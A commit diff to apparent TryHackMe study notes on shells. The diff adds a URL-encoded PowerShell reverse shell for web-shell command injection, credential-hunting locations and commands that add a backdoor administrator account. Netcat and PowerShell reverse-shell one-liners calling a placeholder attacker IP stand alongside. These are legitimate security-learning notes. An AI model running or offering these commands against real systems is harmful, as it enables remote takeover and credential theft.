

Before and after one commit to ziadhamdy88/THM, a Markdown page: Notes/Shells.md, 2 parts joined by grey strips. Shown at 98% size. Rendered like a GitHub page; blank space fills up the shorter version.

Commit message:
Added Web Shell notes!

```diff
--- a/Notes/Shells.md
+++ b/Notes/Shells.md
@@ -93,7 +93,7 @@
 		- The above for reverse shells `mkfifo /tmp/f; nc <attacker-ip> <attacker-port> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f`.
 		- PowerShell one-liner reverse shell
 			- `powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"`
-			-
+			- Change the IP and PORT placeholders!
 	- #### Metasploit multi/handler
 		- `exploit/multi/handler` module, used to receive reverse shells.
 		- The only way to interact with a `meterpreter` shell.
@@ -130,3 +130,14 @@
 		- A script that runs inside a web server (usually in a language such as PHP or ASP) which executes code on the server.
 		- Essentially, commands are entered into a web page, either through a HTML form, or directly as arguments in the URL,  which are then executed by the script, with the results returned and written to the page.
 		- Web shells on Kali are located in `/usr/share/webshells`.
+		- Note that most generic, language specific (e.g. PHP) reverse shells are written for Unix based targets such as Linux web servers. They will not work on Windows by default.
+		- When the target is Windows, it is often easiest to obtain RCE using a web shell, or by using `msfvenom` to generate a reverse/bind shell in the language of the server. With the former method, obtaining RCE is often done with a URL Encoded PowerShell Reverse Shell. This would be copied into the URL as the `cmd` argument:
+			- `powershell%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%27<IP>%27%2C<PORT>%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCII%29.GetBytes%28%24sendback2%29%3B%24stream.Write%28%24sendbyte%2C0%2C%24sendbyte.Length%29%3B%24stream.Flush%28%29%7D%3B%24client.Close%28%29%22`
+			- Change the IP and PORT placeholders!
+- ## *After Getting Shell*
+	- Even after trying to stable the shell, they are still not ideal.
+	- On Linux, look for SSH keys at `/home/<user>/.ssh` or using [Dirty C0w](https://dirtycow.ninja/) or a writable `/etc/shadow` or `/etc/passwd` would quickly give you SSH access to the machine, assuming SSH is open.
+	- On Windows the options are often more limited. It's sometimes possible to find passwords for running services in the registry. VNC servers, for example, frequently leave passwords in the registry stored in plain text. Some versions of the FileZilla FTP server also leave credentials in an XML file at `C:\Program Files\FileZilla Server\FileZilla Server.xml` or `C:\xampp\FileZilla Server\FileZilla Server.xml`. These can be MD5 hashes or in plain text, depending on the version.
+	- Ideally on Windows you would obtain a shell running as the SYSTEM user, or an administrator account running with high privileges. In such a situation it's possible to simply add your own account (in the administrators group) to the machine, then log in over `RDP`, `telnet`, `winexe`, `psexec`, `WinRM` or any number of other methods, dependent on the services running on the machine.
+		- `net user <username> <password> /add`
+		- `net localgroup administrators <username> /add`
```
Also changed, not shown: other parts of Notes/Shells.md (+2 -2 lines).
